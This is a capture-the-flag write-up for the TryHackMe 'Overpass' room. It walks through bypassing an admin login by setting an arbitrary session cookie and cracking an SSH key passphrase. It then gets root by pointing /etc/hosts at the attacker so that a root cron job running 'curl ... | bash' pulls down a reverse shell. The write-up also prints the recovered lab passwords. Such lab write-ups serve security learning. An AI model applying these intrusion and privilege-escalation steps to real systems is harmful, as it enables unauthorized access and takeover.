





# TryHackMe: Overpass

> What happens when a group of broke Computer Science students try to make a password manager?  Obviously a perfect commercial success!

*[Link](https://tryhackme.com/room/overpass)*

## Recon

I got the following IP address:

```
10.10.33.135
```

I performed an NMAP scan, and a Nikto one (on port 80): see `nmap.log` and `nikto.log`. One especially interesting find is `/admin`, an administrator login field. I also found the following line in the web site source code, commenting on the encryption system:

```
<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
```

## Encryption process

I downloaded the source code and the binaries from the website. It seems like the passwords are stored using [ROT47 encryption](https://www.dcode.fr/rot-47-cipher), inside `~/.overpass`. Not a secure method of encryption at all.



## Attacking `/admin` login

The following client-side code is responsible for the authentication: `/login.js`.

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Everything seemed to be the `SessionToken` cookie. I changed this cookie (to just some random value), and got access to some SSH key it seems:



## Cracking the SSH key

I downloaded the key to `private-key.rsa`, and cracked it using John the Ripper. Notice how you first have to use the `ssh2john` utility.



So the password is `james13`.

## User flag

These credentials indeed worked, and got me the user flag:



## Root flag

Now, let's dig for some privilege escalation. I noticed the following comment in `/home/james/todo.txt`:

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

There's also this `.overpass` file:

```
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

Which translates to the following:

```
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

I had no idea what to use this password for, though... I ran `linpeas.sh` for finding more privilege escalation vectors. Apparently, we have write access to `/etc/hosts`. The `/etc/crontab` file also contained something interesting:

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

This last curl call is made to execute a script on `overpass.thm`. In `/etc/hosts` I could overwrite what IP address is used for `overpass.thm`... I made that equal to my own IP, and made the cron job create a reverse shell instead. This worked, and I got the root flag:


